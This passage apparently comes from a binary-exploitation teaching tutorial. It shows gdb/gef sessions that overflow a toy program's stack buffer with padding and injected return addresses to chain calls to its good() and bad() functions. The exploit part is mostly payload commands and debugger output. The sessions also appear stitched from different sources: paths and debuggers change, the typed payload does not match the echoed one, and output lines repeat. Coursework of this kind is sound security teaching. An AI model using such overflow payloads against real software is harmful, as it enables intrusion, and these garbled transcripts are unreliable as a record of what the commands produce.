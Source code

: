 ``` example
gef➤  disass bad
Dump of assembler code for function bad:
   0x080484b6 <+0>:	push   ebp
   0x080484b7 <+1>:	mov    ebp,esp
   0x080484b9 <+3>:	push   ebx
   0x080484ba <+4>:	sub    esp,0x4
   0x080484bd <+7>:	call   0x80485c2 <__x86.get_pc_thunk.ax>
   
End of assembler dump.
gef➤  run 66 `python -c "import sys; sys.stdout.buffer.write(b'A'*48+b'\xe1\x84\x04\x08'+b'\xb6\x84\x04\x08')"`
Starting program: /home/devey/Documents/github/nightmare/a.out 66 `python -c "import sys; sys.stdout.buffer.write(b'A'*48+b'\xe1\x84\x04\x08'+b'\xb6\x84\x04\x08')"`
Go Navy!
You've been naughty!

Program received signal SIGSEGV, Segmentation fault.


Program received signal SIGSEGV, Segmentation fault.
0xbffff800 in ?? ()
```

And finally, we can go a bit nuts and have multiple calls to good() and
bad():

``` example
(gdb) run 66 `python -c "import sys; sys.stdout.buffer.write(b'A'*48+b'\xe1\x84\x04\x08'+b'\xb6\x84\x04\x08'+b'\xe1\x84\x04\x08'+b'\xb6\x84\x04\x08')"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/git/si485-binary-exploits/lec/1.2/vulnerable 66 `python -c "print 'A'*48+'\xc1\x84\x04\x08'+'\xad\x84\x04\x08'+'\xc1\x84\x04\x08'+'\xad\x84\x04\x08'+'\x56\x85\x04\x08'"`

Breakpoint 8, vuln (n=134513837, str=0x80484c1 <good> "U\211\345\203\354\030\307\004$\005\206\004\b\350\235\376\377\377\311\303U\211\345\203\354H\307", <incomplete sequence \364>)
    at vulnerable.c:21
21   while( i < n ){
(gdb) c
Continuing.
Go Navy!
You've been naughty!
Go Navy!
You've been naughty!

Program received signal SIGSEGV, Segmentation fault.
0x08048556 in main (argc=<error reading variable: Cannot access memory at address 0x41414149>, argv=<error reading variable: Cannot access memory at address 0x4141414d>) at vulnerable.c:33
33 }
```

At this point, you should feel like the master of your computer. It's
good to give a good hardy laugh: "Bwahaha!"
